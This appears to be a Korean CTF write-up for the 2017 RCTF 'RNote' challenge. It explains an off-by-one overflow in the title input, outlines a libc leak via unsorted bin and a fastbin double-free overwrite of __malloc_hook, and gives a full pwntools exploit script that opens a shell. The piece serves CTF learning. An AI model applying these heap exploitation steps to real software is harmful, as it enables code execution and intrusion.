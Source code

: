 ```yaml
---
title: "2017 RCTF RNote"
date: 2020-3-2
ctf: RCTF
layout: post
published : false
---
```


title을 입력한걸 bss영역에 저장하고 bss영역에 힙주소를 저장해놓는데 여기에서 off by one취약점이 발생한다. title을 입력할 때 17바이트를 입력할 수 있다. 왜냐하면 i=0; i<=a2까지이기 때문이다. a2로 오는 인자 값은 16인데 17바이트만큼 입력해서 힙주소를 덮을 수 있다. 

```c
__int64 __fastcall sub_4009C7(__int64 a1, signed int a2)
{
  char buf; // [rsp+1Bh] [rbp-5h]
  unsigned int i; // [rsp+1Ch] [rbp-4h]

  for ( i = 0; (signed int)i <= a2; ++i )
  {
    if ( read(0, &buf, 1uLL) < 0 )
      exit(1);
    *(_BYTE *)(a1 + (signed int)i) = buf;
    if ( *(_BYTE *)((signed int)i + a1) == 0xA )
    {
      *(_BYTE *)((signed int)i + a1) = 0;
      return i;
    }
  }
  return i;
}
```

unsorted bin attack으로 libc leak해주고 1,2,3번 청크가 있으면 1번 free, 2번 free하고 3번 청크가 1번 청크 주소로 바꾸고 dfb해주면 된다. 그리고 fastbin duplicate해주면 된다.

> exploit.py

```python
from pwn import *

context.log_level = 'debug'
e = ELF('./RNote')
libc = e.libc
p = process('./RNote')
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
note = 0x00000000006020E0
note2 = 0x00000000006020F8

def add(size,title,content):
	sa(':','1')
	sa(':',str(size))
	sla(':',title)
	sla(':',content)

def delete(idx):
	sa(':','2')
	sa(':',str(idx))

def show(idx):
	sa(':','3')
	sa(':',str(idx))

add(256,'A'*8,'B'*8)
add(256,'C'*8,'D'*8)
delete(0)
add(256,'E'*8,'')
show(0)
p.recvuntil('\x7f')
libc_base = u64(p.recvuntil('\x7f')[-6:]+'\x00'*2) - 0x3c4b20 - 88
log.info('libc_base : {}'.format(hex(libc_base)))
malloc_hook = libc_base + libc.symbols['__malloc_hook']
log.info('__malloc_hook : {}'.format(hex(malloc_hook)))

delete(0)
delete(1)

add(0x60,'a','a') # 0
add(0x60,'b','b') # 1 
add(0x60,'c'*0x10+'\x10','c') # 2
p.recvuntil('Invaild choice')

delete(0)
delete(1)
delete(2)

add(0x60,'a',p64(malloc_hook-35))
add(0x60,'a','a')
add(0x60,'a',p64(malloc_hook-35))
add(0x60,'a','A'*19+p64(libc_base + 0xf1147))

sa(':','1')
sa(':','123')

p.interactive()
```

